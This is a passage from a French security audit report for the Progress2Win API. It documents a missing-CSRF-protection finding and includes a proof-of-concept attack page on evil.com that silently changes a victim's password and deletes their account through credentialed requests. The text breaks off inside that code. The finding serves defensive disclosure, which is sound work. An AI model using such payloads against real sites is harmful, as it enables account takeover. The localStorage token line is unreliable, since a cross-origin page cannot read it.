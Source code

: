 ```typescript
      error: 'Veuillez vérifier votre email avant d\'utiliser cette fonctionnalité'
    });
  }

  next();
};

// Appliquer sur les endpoints critiques:
router.post('/', authenticate, requireVerifiedEmail, async (req, res) => {
  // ... logique de création de contenu
});
```

---

### 🟠 MAJ-004: Pas de protection CSRF

**Sévérité:** MAJEURE
**CWE:** CWE-352 (Cross-Site Request Forgery)
**Localisation:** Tous les endpoints modifiant des données

**Description:**
Aucune protection CSRF n'est implémentée. Un attaquant peut créer une page web malveillante qui effectue des requêtes au nom de l'utilisateur connecté.

**Impact:**
- Actions non intentionnelles effectuées par les utilisateurs
- Changement de mot de passe
- Suppression de compte
- Modification de données
- Transfert de droits

**Exploitation:**
```html
<!-- Page malveillante hébergée sur evil.com -->
<!DOCTYPE html>
<html>
<body>
  <h1>Cliquez pour gagner un iPhone gratuit!</h1>

  <!-- Formulaire CSRF caché -->
  <form id="csrf-form" action="https://api.progress2win.com/api/users/123" method="POST" style="display:none">
    <input name="email" value="hacker@evil.com">
    <input name="password" value="hacked123">
  </form>

  <script>
    // Si la victime est connectée à Progress2Win, cette requête sera authentifiée
    fetch('https://api.progress2win.com/api/auth/change-password', {
      method: 'POST',
      credentials: 'include', // Envoie les cookies
      headers: {
        'Content-Type': 'application/json',
        'Authorization': 'Bearer ' + localStorage.getItem('token') // Si stocké en localStorage
      },
      body: JSON.stringify({
        currentPassword: 'anything', // Pourrait échouer
        newPassword: 'hacked123'
      })
    });

    // Ou supprimer le compte:
    fetch('https://api.progress2win.com/api/users/123', {
      method: 'DELETE',
```